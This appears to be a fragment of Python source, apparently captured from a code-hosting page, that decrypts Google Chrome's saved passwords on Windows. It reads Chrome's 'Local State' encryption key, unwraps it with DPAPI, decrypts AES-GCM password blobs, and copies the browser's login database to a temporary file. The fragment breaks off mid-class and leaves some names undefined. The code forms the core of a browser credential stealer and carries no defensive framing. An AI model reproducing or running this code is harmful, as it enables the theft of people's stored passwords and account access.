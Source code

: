 ```


def decrypt(cipher, ciphertext, nonce):
    cipher.mode = modes.GCM(nonce)
    decryptor = cipher.decryptor()
    return decryptor.update(ciphertext)


def rcipher(key):
    cipher = Cipher(algorithms.AES(key), None, backend=default_backend())
    return cipher


def dpapi(encrypted):
    import ctypes
    import ctypes.wintypes

    class DATA_BLOB(ctypes.Structure):
        _fields_ = [('cbData', ctypes.wintypes.DWORD),
                    ('pbData', ctypes.POINTER(ctypes.c_char))]

    p = ctypes.create_string_buffer(encrypted, len(encrypted))
    blobin = DATA_BLOB(ctypes.sizeof(p), p)
    blobout = DATA_BLOB()
    retval = ctypes.windll.crypt32.CryptUnprotectData(
        ctypes.byref(blobin), None, None, None, None, 0, ctypes.byref(blobout))
    if not retval:
        raise ctypes.WinError()
    result = ctypes.string_at(blobout.pbData, blobout.cbData)
    ctypes.windll.kernel32.LocalFree(blobout.pbData)
    return result


def localdata():
    jsn = None
    with open(os.path.join(os.environ['LOCALAPPDATA'], r"Google\Chrome\User Data\Local State"), encoding='utf-8', mode="r") as f:
        jsn = json.loads(str(f.readline()))
    return jsn["os_crypt"]["encrypted_key"]


def decryptions(encrypted_txt):
    encoded_key = localdata()
    encrypted_key = base64.b64decode(encoded_key.encode())
    encrypted_key = encrypted_key[5:]
    key = dpapi(encrypted_key)
    nonce = encrypted_txt[3:15]
    cipher = rcipher(key)
    return decrypt(cipher, encrypted_txt[15:], nonce)


class chrome:
    def __init__(self):
        self.passwordList = []

    def chromedb(self):
        _full_path = os.path.join(ADP, DBP)
        _temp_path = os.path.join(ADP, 'sqlite_file')
        if os.path.exists(_temp_path):
            os.remove(_temp_path)
        shutil.copyfile(_full_path, _temp_path)
        self.pwsd(_temp_path)
        
```